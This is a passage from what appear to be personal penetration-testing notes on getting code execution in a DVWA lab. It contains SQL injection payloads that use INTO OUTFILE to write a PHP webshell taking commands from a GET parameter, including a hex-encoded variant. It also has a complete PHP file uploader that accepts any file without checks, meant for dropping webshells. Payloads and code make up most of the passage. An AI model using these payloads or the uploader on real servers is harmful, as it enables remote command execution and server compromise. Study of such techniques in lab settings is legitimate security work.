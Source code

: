 ```
Can't create/write to file '/var/www/shell.php' (Errcode: 13 "Permission denied")
```

- **Save the webshell with an absolute path**

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

`<insert_screenshosts>`

TODO: Understand how `LINES TERMINATE BY` SQL query works...

```sql
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

###### 2.2.4.1.2 - Uploader

You can use a file uploader that allows you to upload anything such as custom [[Pentesting Phases/Initial Access/Callback Shells/Webshells]].

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```
